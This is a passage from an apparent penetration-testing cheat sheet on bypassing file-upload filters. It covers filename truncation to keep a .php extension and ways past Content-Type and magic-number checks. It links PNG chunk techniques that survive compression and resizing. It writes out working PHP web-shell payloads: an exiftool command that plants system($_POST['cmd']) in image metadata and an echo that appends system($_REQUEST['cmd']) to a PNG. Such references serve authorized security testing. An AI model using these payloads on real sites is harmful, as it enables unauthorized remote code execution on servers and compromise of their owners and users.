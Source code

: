 8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php

   ```
   # Linux maximum 255 bytes
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
   Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
   # Upload the file and check response how many characters it alllows. Let's say 236
   python -c 'print "A" * 232'
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   # Make the payload
   AAA<--SNIP 232 A-->AAA.php.png
   ```

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
  1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**:\
  `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
  `\` or you could also **introduce the payload directly** in an image:\
  `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)

### Other Tricks to check
